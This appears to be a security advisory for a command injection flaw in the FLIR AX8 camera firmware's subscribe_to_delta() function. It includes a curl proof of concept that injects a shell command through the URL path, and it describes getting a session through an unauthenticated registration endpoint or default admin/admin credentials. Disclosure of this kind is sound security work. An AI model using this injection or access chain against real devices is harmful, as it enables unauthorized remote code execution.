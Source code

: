 # Command injection vulnerability in subscribe_to_delta() in FLIR AX8

### Description

Command injection vulnerability in /usr/www/application/models/subscriptions.php  in FLIR AX8 up to 1.46.16 allows attackers to run arbitrary commands via the function subscribe_to_delta()

![image-20250528203940124](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505282039265.png)

### Note:

This vulnerability is a backend issue that requires obtaining cookies. It  can exploit the unauthorized access vulnerability for arbitrary user  registration found at /tools/test_login.php?action=register. After  registering a new user, cookies can be obtained to achieve RCE (Remote  Code Execution). 

Also.Under normal circumstances, it has a weak password vulnerability with  default account credentials being 'admin' for both user and password too.  You can also obtain a cookie through this method.

### POC

```bash
curl -i "http://target_ip:port/home/subscribe/delta/;id>poc.txt;" --cookie "PHPSESSID=xxxxxxx"
```

![image-20250528204417392](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505282044541.png)

![image-20250528203825966](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505282038020.png)



### Analysis

The line184  subscribe_to_delta() can trigger the command execute of shell_exec(), and the param $id  is user can control

![image-20250528204535321](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505282045363.png)

![image-20250528204632136](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505282046179.png)
